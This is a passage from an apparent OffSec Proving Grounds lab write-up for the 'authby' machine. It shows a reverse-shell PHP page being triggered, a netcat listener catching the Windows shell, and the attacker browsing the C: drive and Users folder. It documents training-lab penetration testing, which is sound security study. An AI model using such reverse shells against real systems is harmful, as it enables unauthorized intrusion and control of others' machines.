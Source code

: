 access --> http://authby.offsec:242/revshell.php

┌──(lepotekil㉿kali)-[~/proving-ground-prac/authby]
└─$ nc -lvnp 4444    
listening on [any] 4444 ...
connect to [192.168.45.170] from (UNKNOWN) [192.168.164.46] 49161
SOCKET: Shell has connected! PID: 712
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\wamp\bin\apache\Apache2.2.21>cd C:\

C:\>ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\>powershell
'powershell' is not recognized as an internal or external command,
operable program or batch file.

C:\>powershell.exe
'powershell.exe' is not recognized as an internal or external command,
operable program or batch file.

C:\>ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is BCAD-595B

 Directory of C:\

09/18/2006  02:43 PM                24 autoexec.bat
09/18/2006  02:43 PM                10 config.sys
12/20/2009  04:06 AM    <DIR>          ManageEngine
01/19/2008  02:40 AM    <DIR>          PerfLogs
05/22/2013  06:38 AM    <DIR>          Program Files
07/09/2020  11:07 AM    <DIR>          Users
11/08/2011  04:37 AM    <DIR>          wamp
03/05/2015  04:35 AM    <DIR>          Windows
               2 File(s)             34 bytes
               6 Dir(s)   6,031,761,408 bytes free

C:\>cd Windows

C:\Windows>cd ..

C:\>cd users

C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is BCAD-595B

 Directory of C:\Users

07/09/2020  11:07 AM    <DIR>          .
07/09/2020  11:07 AM    <DIR>          ..
02/14/2010  05:16 PM    <DIR>          Administrator
11/08/2011  05:34 AM    <DIR>          apache
01/19/2008  02:40 AM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)   6,031,761,408 bytes free
